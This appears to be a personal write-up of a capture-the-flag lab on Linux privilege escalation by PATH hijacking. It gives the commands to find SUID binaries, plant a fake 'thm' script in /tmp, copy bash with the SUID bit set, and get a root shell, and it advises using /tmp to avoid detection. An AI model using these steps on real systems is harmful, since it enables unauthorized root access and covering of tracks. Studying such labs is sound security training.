

# 🔐 Privilege Escalation: PATH

If a folder for which your user has write permission is located in the path, you could potentially hijack an application to run a script. PATH in Linux is an environmental variable that tells the operating system where to search for executables. For any command that is not built into the shell or that is not defined with an absolute path, Linux will start searching in folders defined under PATH. (PATH is the environmental variable we're talking about here, path is the location of a file).

---

if you want to know any variable you write: " echo $<variable> "
```bash
echo $PATH
```


---
then to change this variable "PATH" to start open file from i want :

```bash
export PATH=/tmp:$PATH

```


## Why use the /tmp directory?

* Permissions: It is World-Writable, allowing any user to upload and execute files.
* Stealth: It is Volatile; files are often deleted upon reboot, helping you stay undetected and leave no traces.

then to find file can exploit use command :
```bash
find / -type f -perm -4000 -ls 2>/dev/nul | grep -v "/snap"
```
we use [ grep -v "/snap" ] to remove any path start with "/snap"


search for normal file not bin used as command 
find /home/murdoch/test
go to this path 


read the file thm.py , we will find uncomlete path "thm" in the code ,test file is compiled file from thm.py


go to tmp and create file have same name "thm", that recalled by " test " file that run with sudo permission 
write exploit code in thm file
```bash
#!/bin/bash
cp /bin/bash /tmp/rootbash;chmod +s /tmp/rootbash
```
"+s" to have sudo permission when normal user run it
change thm file permission to by exeutable


run " test " file 



run "rootbash"
```bash
./rootbash -p
```

get root privilege


